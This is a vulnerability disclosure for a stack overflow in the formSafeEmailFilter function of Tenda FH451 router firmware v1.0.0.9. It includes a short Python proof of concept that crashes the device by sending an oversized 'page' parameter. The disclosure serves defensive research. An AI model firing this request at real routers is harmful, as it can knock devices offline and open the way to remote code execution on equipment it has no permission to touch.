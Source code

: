 # Tenda FH451 formSafeEmailFilter
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the formSafeEmailFilter function.

### Vulnerability details
In function formSafeEmailFilter line 13, it reads in a user-provided parameter `page`. The variable `v6` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/14.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeEmailFilter"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```